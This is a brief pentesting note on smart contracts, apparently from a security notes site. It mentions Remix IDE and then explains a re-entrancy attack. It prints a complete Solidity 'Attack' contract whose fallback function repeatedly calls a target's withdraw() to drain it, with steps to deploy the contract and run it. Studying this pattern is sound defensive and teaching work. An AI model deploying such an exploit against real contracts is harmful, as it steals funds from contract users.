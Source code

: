 ```yaml
---
title: Smart Contract Pentesting
description: A smart contract is a program or a transaction protocol that is commonly used in decentralized applications.
tags:
    - Blockchain
    - Ethereum
    - Web3
refs:
date: 2022-12-01
draft: false
---
```


## Tools

- **[Remix IDE](https://remix.ethereum.org/)**
    
    An online tool that allow us to deploy a smart contract and run transactions.

<br />

## Re-entrancy Attack

It’s a common vulnerability involving withdraw and deposit in Solidity.  
For example, create “Attack.sol”.

```js
pragma solidity ^0.8.10;
import './Target.sol';

contract Attack {

     Target public target;
     constructor(address _targetAddress) {
         target = Target(_targetAddress);
     }

     fallback() external payable {
         if (address(target).balance >= 1 ether) {
             target.withdraw();
         }
     }
     function attack() external payable {
         require(msg.value >= 1 ether);
         target.deposit{value: 1 ether}();
         target.withdraw();
     }

     function getBalance() public view returns (uint) {
         return address(this).balance;
     }
}
```

After compiling, deploy it and run “attack” function to get balances by compromising the target contract.